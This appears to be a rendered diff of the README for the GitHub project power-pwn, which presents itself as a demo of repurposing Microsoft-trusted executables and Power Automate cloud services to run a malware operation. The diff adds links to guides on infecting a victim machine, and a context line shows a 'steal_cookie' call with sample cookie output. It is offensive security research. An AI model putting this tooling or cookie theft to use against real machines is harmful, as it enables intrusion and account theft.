

Before and after one commit to mbrg/power-pwn, a Markdown page: readme.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/readme.md
+++ b/readme.md
@@ -1,4 +1,10 @@
-### Usage
+# Power Pwn
+
+Power Pwn is a demo showing how to repurpose Microsoft-trusted executables, service accounts and cloud services to power a malware operation.
+
+<a href="https://powerautomate.microsoft.com/en-us/robotic-process-automation/"><img src="https://docs.microsoft.com/en-us/power-pages/media/overview/power-platform.png" alt="Power Pwn" width="500" height="250" /></a>
+
+## Usage
 
 ```python
 from powerpwn.cli import PowerPwn
@@ -49,11 +55,10 @@ pp.steal_cookie("https://www.google.com").StealCookie
 # StealCookieOutputs(Cookie='1P_JAR=2022-07-16-13; OGPC=19027681-1:')
 ```
 
-### Troubleshoot
+## How To
 
-### SessionExistsForTheUserWhenUnattended
+[How to set up your Power Pwn cloud environment](docs/cloud_setup.md)
 
-Got `success=False` with `code=SessionExistsForTheUserWhenUnattended` in `unattendedError`?
+[How to infect a victim machine](docs/infect_machine.md)
 
-Got to Machines -> locate the machine -> three vertical dots -> Edit details -> Reuse sessions for unattended runs.
-See [reuse sessions for unattended runs](https://go.microsoft.com/fwlink/?linkid=2187511)
+[How to troubleshoot execution errors](docs/infect_machine.md)
````
Also changed, not shown: docs/cloud_setup.md (+10 -4 lines), docs/infect_machine.md (added, +7 -0 lines), docs/troubleshoot.md (added, +8 -0 lines), assets/victim_machines.png (added).
